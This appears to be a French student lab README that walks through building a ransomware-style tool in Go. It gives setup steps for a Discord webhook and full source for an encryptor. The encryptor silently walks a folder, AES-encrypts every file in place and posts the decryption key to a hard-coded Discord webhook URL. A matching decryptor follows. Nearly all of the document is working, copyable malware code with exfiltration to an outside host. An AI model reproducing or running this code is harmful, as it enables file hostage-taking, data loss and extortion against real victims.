




# 1. Création du Webhook Discord

- Créer un serveur Discord.
- Aller dans Paramètres du serveur > Intégrations.
- Créer un Webhook et récupérer l'URL.

# 2. Code du tool de chiffrement

```go
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io/ioutil"
	"net/http"
	"os"
	"path/filepath"
)

// Encrypts file content
func encryptFile(filePath string, key []byte) error {
	// Read file content
	data, err := ioutil.ReadFile(filePath)
	if err != nil {
		return nil // Silently ignore the error and continue
	}

	// Create AES cipher block
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil // Silently ignore the error and continue
	}

	// Correct nonce length for GCM (12 bytes)
	nonce := make([]byte, 12) // AES-GCM uses 12 bytes for nonce
	_, err = rand.Read(nonce)
	if err != nil {
		return nil // Silently ignore the error and continue
	}

	// AES-GCM encryption
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		return nil // Silently ignore the error and continue
	}

	ciphertext := aesGCM.Seal(nil, nonce, data, nil)

	// Save encrypted content back to the file
	encryptedData := append(nonce, ciphertext...)
	err = ioutil.WriteFile(filePath, encryptedData, 0644)
	if err != nil {
		return nil // Silently ignore the error and continue
	}

	return nil
}

// Walk through the folder and encrypt all files
func encryptFilesInFolder(folderPath string, key []byte) error {
	return filepath.Walk(folderPath, func(path string, info os.FileInfo, err error) error {
		if err != nil {
			// Silently ignore the error if it's an access denied error or any other error
			if os.IsPermission(err) {
				return nil // Skip and continue processing other files
			}
			return nil // Silently continue even if it's another type of error
		}
		if !info.IsDir() {
			// Try to encrypt the file and silently continue if there's an error
			err := encryptFile(path, key)
			if err != nil {
				return nil // Silently continue if encryption failed
			}
		}
		return nil
	})
}

// Send the AES key to Discord via webhook
func sendDecryptionKeyToDiscord(key string) error {
	webhookURL := "https://discord.com/api/webhooks/1295679771983872000/BG5rg1ZTH7EWxZGzo3uKYAzzeeWBHQlGDvQXbCfYfLZCJBx1KGy0pPL6q3WiFPXsCSGk" // Replace with your Discord webhook URL
	message := fmt.Sprintf("Decryption Key: %s", key)

	// JSON payload to send the message
	payload := []byte(`{"content": "` + message + `"}`)
	req, err := http.NewRequest("POST", webhookURL, bytes.NewBuffer(payload))
	if err != nil {
		return nil // Silently ignore the error
	}
	req.Header.Set("Content-Type", "application/json")

	// Send the request
	client := &http.Client{}
	_, err = client.Do(req)
	if err != nil {
		return nil // Silently ignore the error
	}

	return nil
}

// Generate random AES key (32 bytes for AES-256)
func generateKey() ([]byte, error) {
	key := make([]byte, 32) // AES-256 key size
	_, err := rand.Read(key)
	if err != nil {
		return nil, nil // Silently ignore the error
	}
	return key, nil
}

func main() {
	folderPath := "C:/Users/dodo/Desktop/test" // Replace with the folder path you want to encrypt

	// Generate a random AES key
	key, err := generateKey()
	if err != nil {
		return // Silently exit if there is an error
	}

	// Convert the key to a hex string for sending to Discord
	keyHex := hex.EncodeToString(key)

	// Send the key to Discord
	err = sendDecryptionKeyToDiscord(keyHex)
	if err != nil {
		return // Silently exit if there is an error
	}

	// Encrypt all files in the folder
	err = encryptFilesInFolder(folderPath, key)
	if err != nil {
		return // Silently exit if there is an error
	}

	// Optionally, you could include a success message if needed, but this is skipped in your case.
	// fmt.Println("Encryption complete. Decryption key sent to Discord.")
}
```

# 3 - Envoyer la clef sur discord


# 4 - Code du tool de déchiffrement :

```go
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"encoding/hex"
	"fmt"
	"io/ioutil"
	"os"
	"path/filepath"
)

// Decrypts file content
func decryptFile(filePath string, key []byte) error {
	// Read encrypted file content
	data, err := ioutil.ReadFile(filePath)
	if err != nil {
		return nil // Ignore error, continue silently
	}

	// Check if the file has at least 12 bytes for the nonce
	if len(data) < 12 {
		return nil // Skip the file as it doesn't have enough data for decryption
	}

	// Extract the nonce and ciphertext
	nonce := data[:12]      // The first 12 bytes are the nonce
	ciphertext := data[12:] // The rest is the ciphertext

	// Create AES cipher block
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil // Ignore error, continue silently
	}

	// AES-GCM decryption
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		return nil // Ignore error, continue silently
	}

	// Decrypt the data using the nonce and ciphertext
	plaintext, err := aesGCM.Open(nil, nonce, ciphertext, nil)
	if err != nil {
		return nil // Ignore error, continue silently
	}

	// Save decrypted content back to the file
	err = ioutil.WriteFile(filePath, plaintext, 0644)
	if err != nil {
		return nil // Ignore error, continue silently
	}

	return nil
}

// Walk through the folder and decrypt all files
func decryptFilesInFolder(folderPath string, key []byte) error {
	return filepath.Walk(folderPath, func(path string, info os.FileInfo, err error) error {
		if err != nil {
			return nil // Ignore error, continue silently
		}
		if !info.IsDir() {
			// Try to decrypt the file and silently continue if there's an error
			err := decryptFile(path, key)
			if err != nil {
				return nil // Continue processing other files silently
			}
			// Optionally, you could still print successful decryption
			// fmt.Printf("Decrypted: %s\n", path)
		}
		return nil
	})
}

// Convert a hex string back to bytes
func hexToBytes(hexStr string) ([]byte, error) {
	return hex.DecodeString(hexStr)
}

func main() {
	// Define the folder path to decrypt (change this as needed)
	folderPath := "C:/Users/dodo/Downloads/test" // Replace with the folder path you want to decrypt

	// Ask user for the decryption key (in hexadecimal format)
	var hexKey string
	fmt.Print("Enter the decryption key (in hexadecimal format): ")
	fmt.Scanln(&hexKey)

	// Convert the hex string back to the AES key
	key, err := hexToBytes(hexKey)
	if err != nil {
		// If you don't want to print anything here, just silently return
		return
	}

	// Decrypt all files in the folder
	err = decryptFilesInFolder(folderPath, key)
	if err != nil {
		// If you don't want to print anything here, just silently return
		return
	}

	// Optionally, you could print a message when decryption is complete
	// fmt.Println("Decryption complete.")
}
```

# 5 - Rendu 

Je vérifie les données qu'il y dans le .txt, et je test le tool en le lançant et en réouvrant le.txt qui devrait maintenant être chiffré puis lance le déchiffrement. 

Vérfication données :



Lancement du tool et ouverture du .txt pour voir les données chiffrer : 





Déchiffrement et vérification du déchiffrage du .txt :



FIN DU TP !